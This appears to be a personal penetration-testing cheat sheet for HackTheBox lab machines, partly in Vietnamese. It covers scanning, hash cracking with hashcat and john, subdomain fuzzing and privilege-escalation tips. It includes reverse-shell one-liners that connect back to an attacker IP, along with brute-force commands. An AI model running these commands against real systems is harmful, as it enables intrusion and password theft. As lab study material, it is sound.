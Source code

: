 # HackTheBox

# nmap

nmap -A

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

- brute force theo định dạng:

```
hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

- brute force theo wordlist:

```
hashcat -a 0 -m 3200 logan.txt /usr/share/wordlists/rockyou.txt
```

- john:

```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

thử hết các dạng :)))

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
nc -c sh 10.10.14.74 1337
```

```
echo bHM= |base64 -d|bash
```

- Stabilizing the shell:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain, directory (`dirb <domain>`), path (`ffuf`)
- vào sqldatase
- `sudo -l` check xem user hiện tại thực hiện được gì với quyền root (search CVE với bất kỳ gì hiện ra trước)
